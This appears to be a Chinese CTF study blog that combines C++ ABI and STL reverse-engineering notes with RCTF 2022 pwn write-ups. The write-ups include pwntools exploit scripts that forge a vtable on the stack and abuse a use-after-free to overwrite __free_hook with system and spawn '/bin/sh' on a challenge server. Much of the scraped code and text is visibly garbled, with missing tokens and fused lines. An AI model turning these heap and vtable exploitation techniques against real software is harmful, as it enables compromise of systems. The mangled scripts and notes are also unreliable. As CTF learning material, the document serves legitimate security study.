构造函数可以不一样: 还是上面的例子, 如果出现了Child的定义, 但是还出现了Parent的定义, 就会有两个Parent构造函数,一个只用在Child::Child()中, 另一个用在Parent自身的构造之中. 也是所谓的in or not in charge constructor
An “in-charge” (or complete object) constructor is one that constructs virtual bases,
嗯, 不想看了. 还有一些destructor的东西.
多重继承时vtable最后的是VTT, 也就是vtable的table.
RTTI :
The typeid operator produces a reference to a std::type_info structure with the following public interface
namespace std {class type_info {public :virtual ~type_info ();bool operator ==(const type_info &) const ;bool operator !=(const type_info &) const ;bool before (const type_info &) const const char * name () const private :type_info (const type_info& rhs);operator = (const type_info& rhs);
除了指向不完全类型的直接或间接指针外，相等和不等操作符在操作type_info对象时可以写成地址比较:两个type_info结构体当且仅当它们是相同的结构体(在相同的地址)时，它们描述的是相同的类型。
layout
abi::__class_type_info is used for class types having no bases, and is also a base type for the other two class type representations.不看了.
看雪blog
BIN 真的会累死. 回过头来一看typeid也就是这么点东西:
char __cdecl std ::type_info::operator ==(std ::type_info *a1, std ::type_info *a2)const char *v3; if ( (unsigned __int8)std ::__is_constant_evaluated() )return a1 == a2;if ( *((_DWORD *)a1 + 1 ) == *((_DWORD *)a2 + 1 ) )return 1 ;if ( **((_BYTE **)a1 + 1 ) == 42 )return 0 ;const char *)std ::type_info::name(a2);return !strcmp (*((const char **)a1 + 1 ), v3);
第二个if直接比较的是demangled name. 但是简单的修改指针为Bot虚表会导致执行Bot::taketurn对象函数. 所以我们需要伪造整个虚表,就在栈上, 所以才需要leak栈指针. 这个修改发生在第二局, 此时进入的是Game::Multiplayer(), 就算破坏canary也没有关系, 能够在Game::play()函数里执行congratulate就可以了.
嗯, 需不需要四字节对齐? 好吧栈上的东西已经是对齐的了, 只要从name开头就可以.
.rodata:0804C35C dd 0 ; offset to this
伪造成上面这个样子, 除了typeinfo部分要换成Bot的typeinfo地址.
pl1 = flat([b'yog' .ljust(20 , b'\x00' ), p2_name_addr])0 , 0x804C1D4 , 0x804AED0 , 0x804AEF2 , 0x804AF18 , 0x804AF4E ])
注意Game class没有虚表指针, 不要看多了就看什么都是虚表.
好吧这样不行, 忽略了后面紧跟着的Game. 会被覆盖 .
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 from pwn import *'debug' './placemat' "./placemat" )lambda x:p.send(x) lambda x:p.sendline(x)lambda x:p.recvuntil(x)lambda :p.recvline()lambda :p.recv() lambda x:p.recv(x) lambda x,y:p.sendafter(x,y)lambda x,y:p.sendlineafter(x,y)lambda :p.interactive()b"3 Exit\n" )b"1" )b"(h)uman? " )b"h" )b"Player 1: " )b"yog" )b"Player 2: " )b"b" * 20 )b"b" * 20 )4 ))0x18 + 0x8 f'leak value: 0x{stack_addr:x} ' )b"(e.g. A3): " )b"A1" )b"(e.g. A3): " )b"B1" )b"(e.g. A3): " )b"A2" )b"(e.g. A3): " )b"B2" )b"(e.g. A3): " )b"A3" )b'yog' .ljust(20 , b'\x00' ), p2_name_addr+20 +48 +4 ])b'fake_bot' , b'\x00' *(20 +48 -8 ), 0 , 0x804C1D4 , 0x804AED0 , 0x804AEF2 , 0x804AF4E , 0x804AF4E ])b"3 Exit\n" )b"1" )b"(h)uman? " )b"h" )b"Player 1: " )b"Player 2: " )b"A1" )b"B1" )b"A2" )b"B2" )b"A3" )
这个exp的问题是由于先手是随机的但是并未检测先手, 导致一半概率达不到想要的结果. 多试两次或者再写个大循环catch exception.
RCTF 2022 general wp
MyCarShowSpeed
New a Game
stability, performance. 真看不出来漏洞…..
Show Information
Visit The Store
Buy Goods:
SuperTire没有一点效果. 但是这有什么特别的含义呢.
有钱买flag之后但是wintimes过少会触发没收车辆. 有什么特别的地方?
**还真有特别的地方, 回过头来看很明显可以先fix car从carlist上删除该车之后(共拥有两辆车以上), 再来买flag, 直接把剩下的也删掉了, carNum归零. **
Sell Goods:
在链表上直接把指针置空当做是删除了车辆. 并没有删除节点.
Fix Cars
car->fixTime = time(NULL );1 ;if (carList->carNums > 1 )1 ;puts ("OK! We will temporily take your car and fix it soon!" );return ;puts ("OK! We'll soon fix it!" );
所有的车大于一辆时就会从车库中(carList)删除这辆车. 而不仅仅是fixed变成1.
Fetch Cars
fixDifficulty = car->fixDifficulty;0LL ) - car->fixTime;int )(0.1 * (double )(int )fixedTime) + 5 ;
可以看出time()返回的巨大时间戳值乘以fixDifficulty后会溢出, 而结果使用int类型, 造成溢出为负数. 测了下只要第二次就可以.
Leave
Quit
?????????????????????????????????????????鉴定为烂, 根本不知道哪个文件是远程环境使用的, 被整晕了, 不做了. 本质是tcache利用.
Diary
C++逆向. 看到了std::string和std::map的逆向代码. 如果要看懂应该要找找stl的逆向教程.
开课了, C++基础班. 看了几个深蓝色的链接, 深感知识匮乏啊, 真不愧是C++.

using statement . can be used to introduce a member of base class into derived class definition.
typename keyword : Inside a declaration or a definition of a template, typename can be used to declare that a dependent qualified name is a type.
then, what is qualified name??
A qualified name may refer to a
class member (including static and non-static functions, types, templates, etc)
namespace member (including another namespace)
enumerator
For an unqualified name, that is a name that does not appear to the right of a scope resolution operator ::
finally, what is the word dependent ?
not determined by template arguments.
所以, STL源码中class内部的using _Nodeptr = typename _Val_types::_Nodeptr;也就可以理解了
map和set:
使用的红黑树: 在查询上最多比平衡二叉树多一次查找, 但是在插入和删除的时候更为高效, 因为其不追求完全的平衡, 减少了大量的平衡性计算.
得出结论, MSVC会内联一些代码导致看起来分不清楚, 但是g++编译的话会出现默认allocator的定义后再构造string或者对应的容器, 已经相当简洁了不用在区分容器上过多分析
但是在逆向文件时发现有不少奇怪函数, 并没有找到教程之类的东西, 有一本RE4B勉强看看吧, 就从这里入个门.
STL源码也不一定要看, 主要是代码和反编译出来的东西的对应. 注意到上面链接中的是msvc版本的STL, 而GNU的STL在下面
link: SGI-STL BOOK | SGI_STL Repo | book note | GNU STL |
STL REVERSING
吾爱找的IDA的DWARF解析出问题, 导致有符号版示例源码变量显示不全, IDA FREE没有这个问题. 明天重下个IDA看看. free版本的使用cloud decompiler实在有点慢, 不过倒也能接受.
示例用源码: int main () int > m;"fuck" ;1 ;int > s;insert (10 );push_back ("vector string" );return 0 ;
无符号和有符号:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 __int64 __fastcall main (int a1, char **a2, char **a3) char v4[32 ]; char v5[48 ]; char v6[32 ]; char v7[59 ]; char v8; int v9; char v10[47 ]; char v11[9 ]; sub_2648 (v7, a2, a3);char >::allocator (&v8);sub_2834 (v6, "fuck" , &v8);char >::~allocator (&v8);sub_28D4 (v7, v6) = 666 ;sub_26B8 (v5);10 ;sub_2A5C (v5, &v9);sub_2728 (v4);char >::allocator (v11);sub_2834 (v10, "vector string" , v11);sub_2B90 (v4, v10);char ,std::char_traits<char >,std::allocator<char >>::~basic_string (v10);char >::~allocator (v11);sub_2B4C (v4);sub_26D4 (v5);char ,std::char_traits<char >,std::allocator<char >>::~basic_string (v6);sub_2664 (v7);return 0LL ;
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 int __cdecl main (int argc, const char **argv, const char **envp) int ,std::less<int >,std::allocator<int > > s; int ,std::less<..::basic_string<... > >,allocator > m; char > __a; int ,std::less<int >,std::allocator<int > >::value_type __x; char > v11; int ,std::less<..>::basic_string<...>>,allocator>::map (&m);char >::allocator (&__a, argv);char >>(&fuckkey, "fuck" , &__a);char >::~allocator (&__a);operator [](666 ;int ,std::less<int >,std::allocator<int >>::set (&s);10 ;int ,std::less<int >,std::allocator<int >>::insert (&s, &__x);vector (&v);char >::allocator (&v11, &__x);char >>("vector string" ,push_back (basic_string (&v10);char >::~allocator (&v11);vector (&v);int ,std::less<int >,std::allocator<int >>::~set (&s);basic_string (&fuckkey);int ,std::less<..::basic_string<...>>,allocator>::~map (&m);return 0 ;
iter
For a reverse iterator r constructed from an iterator i, the relationship &r == & (i-1) is always true !!!!!!!!!!!!!!*a1 -= 8. 这个只是vector的迭代器, 其余结构迭代器有待分析.
如下方表格, 其中a–(或者a++)的内部有流程就是如此,
Expression
Return
Equivalent expression
–a
It&
a–
convertible to const It&
It temp = a;
*a–
reference
**要注意到, 上面表格的temp在编译中发现来自operator++()上层函数当做参数传入的局部变量, 会有基于局部变量空间的相应迭代器构造函数执行, 然后进入operator--(), 最后返回temp也就是传入的指针.
还有一点问题, 库函数似乎是__fastcall类型, 如果文件带上符号IDA大概率识别成__cdecl, 而且两个版本设置call type时什么都不做都能报错, 加上7.5版本反编译相关函数时也无法自动识别, 但是8.1可以. 还是用新的吧. 但是新版的把allocator less啥的都标出来, 显得函数名非常非常的长. 也是一个缺点(?)吧.
begin()的流程:
使用临时变量存储iter(有效字段就8字节),
然后调用相应iterator构造函数(其实就是this->_M_node = __x这样的)
直接return返回__x对应的指针.
rbegin()的流程: 显而易见. 还是使用了临时变量. 然后再构造反向迭代器.
std::vector<enc*,std::allocator<enc*> >::reverse_iterator __fastcall std::vector<enc *,std::allocator<enc *>>::rbegin (const this ,end (a2)._M_current;reverse_iterator (this ,return this ;
string
64位下占用32字节, 感觉不是很固定啊, 还是得看具体的架构和系统. 就拿64位linux版gcc编译的吧.
64位下占用32字节. 差点忘记class的实现是先在栈上分配空间然后构造时把this指针(指向栈上)放到构造函数的第一个位置, 找相应构造函数半天没看到原来是这样. 就是这个basic_string( const CharT* s, const Allocator& alloc = Allocator() );, 可以查到各种std::string std::wstring等就是basic_string模板的实例化.
string所有的构造函数都在basic_string里查找即可, 全局string和其他全局变量的构造函数一起被加入为构造函数指针数组, 在_do_global_ctors之类的函数里按顺序执行. main里面的string按照局部class变量分配和使用空间.
这个所谓的allocator就占用一字节, 懒得探究这是什么了.
搞不明白这32字节是什么东西, 暂时放弃. 可以看下面的源码分析.
从题目中学到的:
substr其实不止两个参数, 反编译时会有四个参数, 第一个参数是一个栈上临时string变量, 用来接收substr的返回值, 如果没有赋值就直接析构了; 如果再对返回值用上operator[]()其实是对临时string的成员函数调用, 没有调用后立刻被销毁了.
在源码中看到C++11版本和之前的string内存布局不相同, 不过想来至少都用上了11, 就拿这个为基准了.
_Alloc_hider _M_dataplus; enum {15 / sizeof union { 1 ];
而第一行__Alloc_hider里面又有
所以对于typedef basic_string<char> string来说就是8+8+16=32字节. C++11特有, 其他版本未看.
对于<=15字节的数据会存放在部分而里面, 大于则在堆上分配 .
vector 也是32字节. 其实是24字节.
构造函数还是一如既往的套娃清零函数. _Vector_base和_Vector_impl::_Vector_impl之类的函数. 在第三层调用allocator, 其实啥也没干就返回了.
我算是看明白这个32字节的布局了, 源码里找半天. 在gcc/libstdc++-v3/include/bits/stl_vector.h里前几行就是_Vector_base, 定义了一些基本的内存布局和一堆构造析构(原来struct也能有构造之类的), 然后vector就定义operator之类的有实际作用的库函数. 嗯, 也可以在IDA里直接查看class, 不用追究细节还更快一点.
其中:
_Vector_base::_Vector_impl继承了_Vector_base::_Vector_impl_data, 而data结构体中含有_M_start/finish/end_of_storage三个指针, 并声明了**_Vector_impl _M_impl;**
vector class又继承了_Vector_base, 定义了typedef _Vector_base _Base using _Base::_M_impl;, 于是内存就是3*8=24字节, IDA里也是如此, 至于为什么局部变量是32字节, 我也不知道. sizeof也是24, 确实就是这三个.
vector的迭代器好像只有一个成员变量, 是指针. 确实如此,
遇到了一个*sub_558C(&iter_reverse)操作, 其实是operator*(), 因为vector是序列式内存分布, 所以直接在内部将指针减8. 具体见上面iter.
突然发现我好像认不出来vector的erase….又去看反编译了.
在C++11下第一层封装
iterator erase (const_iterator __position) { return _M_erase(begin () + (__position - cbegin ())); }
_M_erase第二层封装
template <typename _Tp, typename _Alloc>typename vector<_Tp, _Alloc>::iteratorif (__position + 1 != end ())1 , end (), __position);this ->_M_impl._M_finish;destroy (this ->_M_impl, this ->_M_impl._M_finish);return __position;
问题在于第一层封装看起来很短, 但是由于C++11的新参数类型const iterator导致在函数使用__position为base来构造一个局部iterator, 然后调用opertor-, 局部变量接收begin()返回值, operator+, 最后才是_M_erase()的调用, 显得很长.operator+里. 多熟悉下就懂了. 不等于号也是个函数(…)
至于为什么operator-里面有个0xAAAAAAAAAAAAAAAB, 牵扯过多, 除非看懂traits和vector所有Member types等等东西. 简单说就是bool divisible_by_3 = number * 0xAAAAAAABu <= 0x55555555u; 还可以用这个乘法代替常数除法. 本质数学题, 不是那块料.
发现一个新问题, 这个怎么没有destroy __position指向的元素?这也能叫做erase? 就只是让它从向量中消失? 真绝了, 为什么看起来这么奇怪, 可能在实际也有用处, 所以不是默认行为.
set 48字节.
构造函数还是没有什么特别的. 套娃是真谛.
和map有着一样的构造函数, 插入时也能找到rb_tree_insert. 注意区别.
map 59字节是个什么东西. 其实是48字节.
map中只有 std::map::_Rep_type _M_t, 其实就是 _Rb_tree这个class, 它的内存仅包含 std::_Rb_tree::_Rb_tree_impl _M_impl , 而这个成员的嵌套关系如下:
std ::_Rb_tree<...>::_Rb_tree_impl _M_impl 00000000 baseclass_0 std ::allocator<...> 00000001 db ? ; undefined00000002 db ? ; undefined00000003 db ? ; undefined00000004 db ? ; undefined00000005 db ? ; undefined 00000006 db ? ; undefined00000007 db ? ; undefined 00000008 baseclass_8 std ::_Rb_tree_header ? 00000030
00000000 _M_header std ::_Rb_tree_node_base ? 00000020 _M_node_count dq ?00000030
00000000 _M_color dd ? ; enum std :00000004 dd ? ; undefined00000008 _M_parent dq ? ; offset00000010 _M_left dq ? ; offset00000018 _M_right dq ? ; offset00000020
所以实际上为
00000000 _M_color dd ? ; enum std :00000004 dd ? ; undefined00000008 _M_parent dq ? ; offset00000010 _M_left dq ? ; offset00000018 _M_right dq ? ; offset00000020 _M_node_count dq ?00000030 map_end
啊, 还是查IDA得结构体方便. 源码里真的是找半天.
开头的map class构造函数还错误的将main的rsi rdx当成是该函数的第二三个参数, 没有符号时IDA可能会错误增加变量个数.
构造函数是一堆套娃子函数, 清空下59字节(大概)内存.
然后分析下**operator[]**函数: 注意到map变量的操作符最终会被编译成class成员函数的样子, 第一个参数为this指针, 第二个参数为相应操作数值. 例如operator[]的对应函数表达式为*sub_28D4(m, fuckstr) = 1;即map['fuck'] = 666. **在这个函数中可以发现_Rb_tree_insert_and_rebalance这个函数, 也能够确定是某个使用黑红树的容器. ** sub_28d4返回的是一个左值引用 , 在C++11以后的版本中使用右值引用参数(又查了半天的右值复习了下, 主要是配合move和forward两个函数好用), 在源码中就是这么几个函数:
v5 = sub_2DD0 (a1, a2); sub_2DF6 (a1); if ( sub_2E10 (&v5, &v6) || (sub_2E32 (a1), v2 = sub_2E4E (&v5), sub_2E6C (&v7, a2, v2)) ) sub_2E96 (v9, a2);sub_2EBC (&v10, &v5);sub_2EDA (a1, v10, &unk_6004, v9, &v8);return sub_2E4E (&v5) + 32 ;
iterator __i = lower_bound (__k);if (__i == end () || key_comp ()(__k, (*__i).first))move (__k)),return (*__i).second;
然而没符号的**map::find**真的看不出来什么端倪….
再看看tree的iterator , 它的内存布局很简单, 只有一个_Rb_tree_node_base*指针占用8字节. 在调用map::end()时就可以简单地看出来.
find函数如果没有找到对应键值对则返回iter_end.
map的erase中对value的空间进行了destroy, 意味着调用了类(如果是的话)的析构函数.
然后是看了源码后的分析
也没啥, map要实现的操作在rb_tree中都有实现, 所以做一个转接调用即可.
注意到源码中的rb_tree还继承了一个base然而书中没有, 只有一个node_base.
deque
足足有80字节.
布局如下:
00000000 std::_Deque_base<int >::_Deque_impl struc ; (sizeof =0x50 , align=0x8 , copyof_137)00000000 ; XREF: std::_Deque_base<int >/r00000000 _M_map dq ? ; offset00000008 _M_map_size dq ?00000010 16 _M_start std::_Deque_base<int >::iterator ? 00000030 48 _M_finish std::_Deque_base<int >::iterator ?00000050 std::_Deque_base<int >::_Deque_impl ends
其中start finish意思显而易见. 但是注意到一个iterator有0x20字节, 和vector的8字节明显不同. 下面是iterator:
00000000 std::_Deque_base<int >::iterator struc ; (sizeof =0x20 , align=0x8 , copyof_139)00000000 ; XREF: std::_Deque_base<int >::_Deque_impl/r00000000 st fi ; std::_Deque_base<int >::_Deque_impl/r00000000 16 48 _M_cur dq ? ; offset00000008 24 56 _M_first dq ? ; offset00000010 32 64 _M_last dq ? ; offset00000018 40 72 _M_node dq ? ; offset00000020 std::_Deque_base<int >::iterator ends
多了first last node.
注意指针的位置, cur指向第一个元素或者最后一个元素之后 .
它的迭代器比较直接. 逆向迭代如下, 如果是正向迭代则只要第五行即可. 直接初始化*__x = this->_M_impl._M_finish
std::deque<int >::reverse_iterator *__cdecl std::deque<int >::rbegin (std::deque<int >::reverse_iterator *retstr, std::deque<int > *const this )int ,int &,int *> __x; int ,int &,int *>::_Deque_iterator(&__x, &this ->_M_impl._M_finish);int ,int &,int *>>::reverse_iterator (retstr, &__x);return retstr;
它的push_back->move+emplace_back. 注意emplace的参数是std::move的返回值, move实际上啥也没做. push_front非常相似._M_push_back_aux中的一个报错字符串才发现这个是deque.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 void __fastcall std::deque<int >::emplace_back<int >(std::deque<int > *const this , int *a2, int *__args_0)int *v3; int *v4; int *v5; int *v6; if ( this ->_M_impl._M_finish._M_cur == this ->_M_impl._M_finish._M_last - 1 )int >(a2); int >::_M_push_back_aux<int >(this , v5, v6); else int >(a2);int >>::construct<int ,int >(this ,this ->_M_impl._M_finish._M_cur,this ->_M_impl._M_finish._M_cur;
erase: 一个if, 一个else语句还是比较明显的, 要注意有两层wrap, 和vector差不多. 还有一个重载版本是擦除区间.destroy()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 template <typename _Tp, typename _Alloc>typename deque<_Tp, _Alloc>::iteratorconst difference_type __index = __position - begin ();if (static_cast <size_type>(__index) < (size () >> 1 ))if (__position != begin ())begin (), __position, __next);pop_front ();else if (__next != end ())end (), __position);pop_back ();return begin () + __index;
pop_back(): 注意到destroy对于原生类型是没有操作的, 看到啥也没返回的不要惊讶.
void pop_back () _GLIBCXX_NOEXCEPTif (this ->_M_impl._M_finish._M_curthis ->_M_impl._M_finish._M_first)this ->_M_impl._M_finish._M_cur;destroy (this ->_M_impl,this ->_M_impl._M_finish._M_cur);else
DIARY BIN 回到题目中.
sub_2813是init函数. 向一个全局map添加几个键值对, 但是在源码中看到值是一个枚举类型, 要留意这种可能.
遇到了变量重复使用, if语句内外已经不是一个含义了.
下面的strtol是错误的, 实际上是stoi, 库函数API如下
inline int stoi (const string& __str, size_t * __idx = 0 , int __base = 10 ) return __gnu_cxx::__stoa<long , int >(&std::strtol, "stoi" , __str.c_str (),
分支分析:
op_add
add format: add#year#month#day#hour#minutes#second#content diary_vector存储日记, 最多32个. 时间限制为2022年以前. 分配0x300的空间, content最多写入0x2F0.
new出来的content如果前四个字符都是空格则又delete掉. 然后在又一次的init中new出一片content空间, 清零并设置前四字节为空格 .
op_update
update format: update#idx#content memset过程和op_add基本一致. idx判断逻辑是不能大于vector长度.
op_show
show format: show#idx 没啥特别的
op_delete
op_encrypt
encrypt format: encrypt#idx#offset#lengt 使用strtol()但是返回的数值赋值给了unsigned int类型, 可能溢出. 好吧好几个函数都是这样的.用idx对应的diary的datetime在time_cry_map里找到映射的diary_cry_vec, 然后将具有offset length content(by calloc )三个field的结构体pushback到diary_cry_vec, 作为原始数据, 再将原区域的数据进行byte xor, 字节序列为程序一开始得到的随机数字节串, 设置encrypted bit in diary struct.
decrypt
decrypt#idx 根本没解, 在for循环里面把vector的每一个元素部分都memcpy回去. 这?
这又有什么漏洞?? 居然可以是vector::erase的特性….
直接wp学习法(到底什么时候才能自己做题啊)
wp1 - Nu1l
利⽤UAF构造最后⼀个块同时存在于tcache与unsorted bin中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 from pwn import *"119.13.105.35" ,"10111" )def add (sec,buf ):"add#2022#12#10#0#0#{}#{}" .format (sec,buf)"input your test cmd:" ,payload)def edit (idx,buf ):"update#{}#{}" .format (idx,buf)"input your test cmd:" ,payload)def show (idx ):"show#{}" .format (idx)"input your test cmd:" ,payload)def free (idx ):"delete#{}" .format (idx)"input your test cmd:" ,payload)def enc (idx,offset,length ):"encrypt#{}#{}#{}" .format (idx,offset,length)"input your test cmd:" ,payload)def dec (idx ):"decrypt#{}" .format (idx)"input your test cmd:" ,payload)def debug (addr ):''' b *$rebase({}) set $datevec=*(size_t *)$rebase(0x162F0) ''' .format (addr))for i in range (11 ):str (i))for i in range (6 ):10 -i)1 )3 )"2022.10.12 0:0:4\n" )False )+"\x00\x00" )3 ,'1' )1 )2 )"./libc-2.31.so" )"\x7f" )[-6 :]+'\x00\x00' )-0x1ecbe0 hex (libc.address))hex (heap))0 ,'A' *0x8 +p64(libc.sym['__free_hook' ]-4 ))0 ,12 ,6 )0 ,'A' *(0x2c0 -0x16 ))40 ,'/bin/sh;' )41 ,p64(libc.sym['system' ])[:6 ])4 )3 )
delete函数存在uaf，可以利用这个特点来泄露libc和改fd，堆风水比较复杂，造出tcache和unsorted bin重合后，利用encrypt函数里的calloc机制可以改fd，打mallochook即可
更难看懂……..看起来有onegadget, 算了不研究了, 官方wp看了就得了, 这一题看了老久了看不下去了.
wp intended The logic of the erase function of vector is as follows:
iterator erase (iterator position) if (position + 1 != end ())copy (position + 1 , finish, position); destroy (finish);return position;
If the = operation is not rewritten for the class, the function will call the default operation, that is, directly copy all the contents of the class. if there is a pointer, it will also be copied directly.
So at the time of destroy(finish);, if the pointer in the class is freed in the destructor, then the copied pointer points to a memory that has been freed.
Here is an example:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 #include <iostream> #include <vector> using namespace std;class A {public :A (){new char [0x100 ];"Call A()" << endl;A () {delete [] a;"Call ~A();" << endl;char * a;int main () vector<A> vec_A (3 ) ;erase (vec_A.begin ());return 0 ;
The vulnerability of the challenge is in the delete command. If it is not the last idx deleted, then there will be a pointer pointing the freed chunk, which can be used to leak data with the show command. But it needs to leak the random number before rewritten tcache bins’ fd. Then use the xor in the encryption function to xor the fd of the released chunk into the desired address.
The random numbers are initialized at the beginning, and they will be used in a subsequent cycle. The length is 0x200, so as long as the content of a normal content is encrypted, the random number can be obtained. It should be noted here that the show command will be truncated by ‘\x00’, so multiple encryptions and shows may be necessary to get complete random numbers.
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 from pwn import *def add (year,month,day,hour,minutes,sec,content ):"cmd:" )'add#' str (year) + '#' + str (month) + '#' + str (day) + '#' + str (hour) + '#' + str (minutes) + '#' + str (sec) + '#' + contentdef show (idx ):"cmd:" )'show#' + str (idx)def delete (idx ):"cmd:" )'delete#' + str (idx)def update (idx,content ):"cmd:" )'update#' + str (idx) + '#' + contentdef decrypt (idx ):"cmd:" )'decrypt#' + str (idx)def encrypt (idx,offset,length ):"cmd:" )'encrypt#' + str (idx) + '#' + str (offset) + '#' + str (length)"x.x.x.x" 10111 )for i in range (11 ): 1971 ,12 ,12 ,23 ,22 ,20 +i,'a' *0x200 )for i in range (10 ,3 ,-1 ): 0 ) 2 ) "1971.12.12 23:22:23\n" )6 ).ljust(8 ,b'\x00' )) "leak_value: " + hex (leak_value))0x2268 - 0xd 0x19a950 for i in range (5 ): 1971 ,12 ,12 ,23 ,22 ,40 +i,'a' *0x200 )0 )6 )"23:22:44\n" )6 ).ljust(8 ,b'\x00' ))"heap_value: " + hex (heap_value))for i in range (6 ):0 ,chr (need_random_value&0xff )*0x200 )0 ,4 ,0x200 ) 0 )"input" )6 ]25 :]if len (data) == 0x200 :0 ,"A" *0x200 )0 ,0 ,len (data)) 6 ,i,1 ) 0 ,"A" *0x200 )0 ,0 ,0x1FF -len (data)) 8 1972 ,12 ,12 ,23 ,22 ,40 ,'a' *0x10 )1972 ,12 ,12 ,23 ,22 ,41 ,';/bin/sh;' + '' .join([chr (x) for x in p64(system)]))
折腾了一会儿的调试环境, 发现使用docker调试要装git pwntools python gdb peda, 受不了.
姑且试了了在container里面调试, 改写compose.yaml以及换源,
转到ubuntu2004虚拟机上继续. 主要就是想知道heap环境是否和我想的一样. 果然不一样, 忘记了0x300和0x200的区别.
注意到substr中构造了新的string, 使用了operator *也就是malloc函数, 这是和普通的c程序(而且禁用了IO缓冲区的那种)不一样的地方, 多了很多意料之外的heap操作, 要谨慎选择布局中使用的chunk大小.
其中54行的减去0xd是指add后最开始四个空格加上;/bin/sh;的长度, 好让line93的system地址能够放在__free_hook上
free_hook最终被main函数最后 的string析构函数调用, 而析构的正是我们输入的命令字符串, 所以exp执行完会出现sh : 1 : add#a#b#... not a command这样的提示, 之后就可以快乐cat /flag了.
主要卡在了xor实际上是一种任意写, 只要和循环使用的随机数字配合好(指循环查找相同数值)即可. 然后__free_hook可以被析构函数调用.
BFC
仍然是C++逆向
7.5版本老是自动识别不了switch跳转表. 换成新版反编译又有点慢. 挺难受的.
出现了deque双端队列的使用. 写在Diary中.
一个地址编码计算看了好一会儿…不太敢意会, 还是准确一点.
居然是2.35的libc, 而且瞄到了tcache利用, 不是有那个啥保护么. 难搞哦.
看init函数的时候查着查着又看到ABI, 因为__cxa_atexit标准的这里 :int __cxa_atexit(void (*func) (void *), void * arg, void * dso_handle);atexit()又是个啥? atexit() does not deal at all with the ability in most implementations to remove [Dynamic Shared Objects] from a running program image by calling dlclose prior to program termination.
差点忘了create function.
终于知道IDA里rodata段的函数为什么会是call near ptr sub_5555555591E0+1这种操作了, 因为被当做字符串了, 几个函数之间有空字符充当结束符和对齐字节.
2.34+的libc无法使用pwndbg的heap等指令, 因为一个宏定义被修改了. issue 在这里
probeleak xinfo神奇pwndbg命令.
经验总结:
被deque卡住. 看了STL之后熟悉了很多. 下次遇到set mutiset hashmap又得卡. 算了到时候再说.
以后可以先看看.init_array段中出现的构造函数, 看看有没有用的全局变量提示. 就如这里的unkn_string_arr.
动静态相结合 可以更快的看出代码的意图. 就比如最重要执行的代码区域的样子, 前面229字节然后一堆call指令, 直接观察call什么地址.
流程: init:
第一个buf_16存放一个0x10堆块指针(可以改变). 最终在main的最后把buf_16的地址也就是0x55555555C460作为参数. 难怪有什么a1[5]这种引用.
.bss:0x00055555555C460 [0 ] buf_16 dq ? ; DATA XREF: init+97 ↑w0x00055555555C460 ; main+15 C↑o0x00055555555C468 [1 ] init_16 dq ? ; DATA XREF: init+9 E↑w 0x00055555555C470 [2 ] init_0 dq ? ; DATA XREF: init+A9↑w0x00055555555C478 [3 ] mapped_addr_2 dq ? ; DATA XREF: init+C6↑w0x00055555555C480 [4 ] malloc_addr dq ? ; DATA XREF: init+D4↑w0x00055555555C488 [5 ] free_addr dq ? ; DATA XREF: init+E2↑w0x00055555555C490 [6 ] memcpy_addr dq ? ; DATA XREF: init+F0↑w0x00055555555C498 [7 ] init_2 dq ? ; DATA XREF: init+B4↑w
使用了unkn_string_arr, 把一堆指令复制到了mapped_addr的前面一部分, 也就是说map_str_len从一开始就是229. 而流程中的call指令都是往回跳.
main中switch:
结尾加上retn, 然后使用在init中初始化的buf_16(0x10字节没有初r值)作为参数执行输入字符串所代表的指令, 注意229字节之前都是那一堆rodata的指令.
几个预置函数:
__int64 __fastcall sub_5555555591E0 (__int64 *a1) if ( init_16 <= init_0 + 1 )malloc (2 * init_16);memcpy (new_buf, buf_16, init_16);free (buf_16);2 ;return ???;
E0_plus_1 (&sub_5555555591E0)(a1); ++init_0;
E0_plus_2 (&sub_5555555591E0)(a1); --init_0;
24C ++*(char*)(buf_16 + init_0);
259 --*(char*)(buf_16 + init_0);
268 sys_read(0, init_0 + buf_16, 1uLL);
288 sys_write(1, buf_16 + init_16, 1uLL);
2A7 ??????? 后接一个je指令, 所以这是判断*(buf_16+init_0) == 0
.rodata:00005555555592 A7 48 8B 07 mov rax, [rdi]00005555555592 AA 48 8B 5F 10 mov rbx, [rdi+10 h]00005555555592 AE 8 A 0 C 18 mov cl, [rax+rbx]00005555555592B 1 20 C9 and cl, cl00005555555592B 3 C3 retn
if ( init_2 )return malloc (1LL );return init_2;
完蛋, 又要wp学习法了吗…….
wp
行吧, 预期解是house of apple. 难怪用2.35, 有用到IO chain.
但是nu1l的是tcache相关. 另一个非预期 .
1.读堆地址
但是实操第一步leak就卡住了. 诶算了, 借鉴个开头. 适用于几乎所有.
